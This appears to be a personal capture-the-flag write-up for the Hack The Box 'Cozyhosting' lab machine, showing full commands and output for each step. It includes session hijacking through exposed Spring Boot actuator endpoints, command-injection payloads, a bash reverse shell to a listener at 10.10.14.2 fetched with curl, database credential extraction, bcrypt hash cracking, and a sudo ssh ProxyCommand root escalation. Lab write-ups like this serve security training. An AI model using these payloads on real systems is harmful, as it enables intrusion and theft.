








---
tags:
  - session_hijack
  - command_injection
  - jar
  - postgresql
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Cozyhosting
- Reference : https://0xdf.gitlab.io/2024/03/02/htb-cozyhosting.html
- Solved : 2025.4.8. (Tue) (Takes 3days)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: 22 (SSH), 80 (HTTP)
    - **HTTP Service**:
        - Website hosted on `nginx`, title hints at `cozyhosting.htb`
        - `gobuster` reveals endpoints: `/login`, `/admin`, `/actuator`, etc.
        - `/actuator` confirms Spring Boot backend and exposes sensitive endpoints.
            
2. **Web Exploitation**
    - **Session Hijack**:
        - `/actuator/sessions` leaks valid session for user `kanderson`.
        - Reused session cookie to access `/admin` interface.
    - **Command Injection**:
        - Found vulnerable SSH form on `/admin`.
        - Injected commands via `username` parameter using `;`, `${IFS}`, and `;#`.
        - Verified command execution via ICMP (ping) using `tcpdump`.
            
3. **Shell as `app`**
    - **Reverse Shell**:
        - Hosted reverse shell script via HTTP.
        - Used command injection to download and execute the script.
        - Got a reverse shell as `app` user.
            
4. **Information Disclosure**
    - Found `cloudhosting-0.0.1.jar` in `/app`.
    - Extracted and analyzed contents; found DB credentials in `application.properties`.
        
5. **PostgreSQL Access**
    - Logged into local PostgreSQL using found credentials.
    - Queried `users` table in `cozyhosting` DB to extract bcrypt hashes.
    
6. **Shell as `josh`**
    - Cracked `admin` hash: `manchesterunited`.
    - Reused password to successfully SSH into user `josh`.
        
7. **Privilege Escalation**
    - `sudo -l` shows `josh` can run `ssh` as root.
    - Used GTFOBins trick: `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`
    - Escalated to root shell.

### Key Techniques:

- **Spring Boot Actuator Abuse**: Accessed internal session info.
- **Command Injection**: Abused insecure SSH form.
- **Reverse Shell**: Used `curl` and `bash` to retrieve and execute payload.
- **Password Reuse**: Reused cracked hash for lateral movement.
- **GTFOBins Sudo Bypass**: Leveraged `ssh` with `ProxyCommand` for root access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ /opt/custom-scripts/port-scan.sh 10.10.11.230
Performing quick port scan on 10.10.11.230...
Found open ports: 22,80
Performing detailed scan on 10.10.11.230...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-05 16:34 MDT
Nmap scan report for 10.10.11.230
Host is up (0.29s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.17 seconds
```

### http(80)


It looks like a normal hosting website.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
```

Gobuster finds several pages. Among them there's a only page returns 500 error.



Interestingly, the response page looks a little more verbose than the usual error page.

I googled with the title of the error page, and found out that the server backend might be Spring Boot.



I fuzzed one more time with specified wordlist : `/usr/share/seclists/Discovery/Web-Content/spring-boot.txt`

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ gobuster dir -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/spring-boot.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/actuator             (Status: 200) [Size: 634]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/health      (Status: 200) [Size: 15]
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/sessions    (Status: 200) [Size: 48]
Progress: 112 / 113 (99.12%)
===============================================================
Finished
===============================================================
```


# Web Login as `kanderson`

### /actuator

The `/actuator` and sub pages seem to expose debugging information.



Among the pages, I found out one valid session of the user `kanderson`.



Let me check if I can reuse the session to hijack the session.



Then, I can sign-in to `/admin` page as `kanderson`.



The interesting part of the page is the form at the bottom. 



### SSH connection interface

I tested with my Kali's IP and sent a request.
Here's the captured POST request.

```http
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://cozyhosting.htb
Connection: keep-alive
Referer: http://cozyhosting.htb/admin?error=ssh:%20connect%20to%20host%2010.10.14.2%20port%2022:%20Connection%20timed%20out
Cookie: JSESSIONID=83C9F7C4C69D61A30DD01AED7EC57BA0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

host=10.10.14.2&username=bokchee
```

And the response is as follows;

```
Hostname : 10.10.14.2
Username : bokchee

>>>

The host was not added!
ssh: connect to host 10.10.14.2 port 22: Connection timed out
```

Let's tamper this with several payload.

```
Hostname : 127.0.0.1
Username : bokchee

>>>

The host was not added!
Host key verification failed.
```

The message looks different.
I guessed the command line running behind as follows;

```bash
ssh -i [key] [username]@[hostname]
```

```
Hostname : 127.0.0.1
Username : bokchee;whoami

>>>

The host was not added!
ssh: Could not resolve hostname bokchee: Temporary failure in name resolution/bin/bash: line 1: whoami@127.0.0.1: command not found
```

It seems that the command line will be `ssh -i [key] bokchee; whoami@127.0.0.1`
Which separates `whoami@127.0.0.1` as a single command.

```
Hostname : 127.0.0.1
Username : bokchee;whoami[space]

>>>

The host was not added!
Username can't contain whitespaces!
```

It doesn't allow whitespace.
Instead, I can try `${IFS}`.
Also, I can add `;#` to separate with `@127.0.0.1` which follows the `username` part.

```
Hostname : 127.0.0.1
Username : bokchee;ls${IFS}-al;#

>>>

The host was not added!
ssh: Could not resolve hostname bokchee: Temporary failure in name resolution/bin/bash: line 1: whoami
```

Let's try `ping` command this time.
I can combine `${IFS}` and `;#` to make a command injection.

```
Hostname : 127.0.0.1
Username : bokchee;ping${IFS}-c${IFS}2${IFS}10.10.14.2;#

>>>

The host was not added!
ssh: Could not resolve hostname bokchee: Temporary failure in name resolution
```

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ sudo tcpdump -i tun0 icmp and dst host 10.10.14.2
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:50:47.951423 IP cozyhosting.htb > 10.10.14.2: ICMP echo request, id 4, seq 1, length 64
18:50:48.953004 IP cozyhosting.htb > 10.10.14.2: ICMP echo request, id 4, seq 2, length 64
```

It works!

##### Reverse shell using Command Injection

Let's prepare reverse shell payload.
It's way easier than put the command line directly to the command injection vector.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ cat rshell.sh          
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.2/9000 0>&1
```

Then, let's upload the payload. (Needs to setup a web server first)

```
Hostname : 127.0.0.1
Username : bokchee;curl${IFS}http://10.10.14.2:8000/rshell.sh${IFS}-o${IFS}/tmp/rshell.sh;#
```

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.230 - - [07/Apr/2025 19:02:11] "GET /rshell.sh HTTP/1.1" 200 -
```

Then, let's run the payload. (Open a listener first)

```
Hostname : 127.0.0.1
Username : bokchee;bash${IFS}/tmp/rshell.sh;#
```

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.230] 59430
bash: cannot set terminal process group (1060): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ 
```

I got `app`'s shell!


# Shell as `josh`

### Enumeration

On the obtained shell's home directory, there's a jar file.

```bash
app@cozyhosting:/app$ ls  
ls
cloudhosting-0.0.1.jar
```

Let's move this file to Kali, and unzip it.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting/cloudhosting]
└─$ unzip cloudhosting-0.0.1.jar 
Archive:  cloudhosting-0.0.1.jar
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF    
   creating: org/
...SNIP...
```

I searched password using `grep` command recursively.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting/cloudhosting]
└─$ grep -r password . 2>/dev/null
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:    

...SNIP...

./BOOT-INF/classes/application.properties:spring.datasource.password=Vg&nvzAQ7XxR

...SNIP...

./BOOT-INF/classes/templates/login.html:                                    <p th:if="${param.error}" class="text-center small">Invalid username or password</p>
```

In `BOOT-INF/classes/application.properties` file, there's a password `Vg&nvzAQ7XxR`.
Let's read the file.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting/cloudhosting]
└─$ cat BOOT-INF/classes/application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR 
```

It seems that the password found is related with postgres database.

```bash
app@cozyhosting:/app$ PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
\list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)
```

Let's investigate `cozyhosting` database.

```bash
\c cozyhosting
You are now connected to database "cozyhosting" as user "postgres".
\d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

SELECT * FROM users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

I found two hashes for `kanderson`, and `admin`.
Let's make a file containing these two hashes.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ cat hashes                                 
kanderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

I can crack them using `hashcat`.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ hashcat hashes --user /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1436/2937 MB (512 MB allocatable), 2MCU

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].

Started: Mon Apr  7 20:02:10 2025
Stopped: Mon Apr  7 20:02:10 2025
```

Among the listed hashes, let's try 3200 hash which is the most common.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ hashcat -m 3200 hashes --user /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting

...SNIP...

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

Assuming that the password is reused, let's try sign-in as `josh`.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ ssh josh@cozyhosting.htb
josh@cozyhosting.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

...SNIP...

Last login: Tue Apr  8 02:14:09 2025 from 10.10.14.2
josh@cozyhosting:~$ id
uid=1003(josh) gid=1003(josh) groups=1003(josh)
josh@cozyhosting:~$ whoami
josh
```


# Shell as `root`

### Enumeration

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Sorry, try again.
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

The user `josh` can `sudo` with `ssh` command.

### Exploit `ssh`

According to `gtfobins`, there's a payload to escalate `sudo` privilege with `ssh` command.



Let's try it.

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

I got a root shell!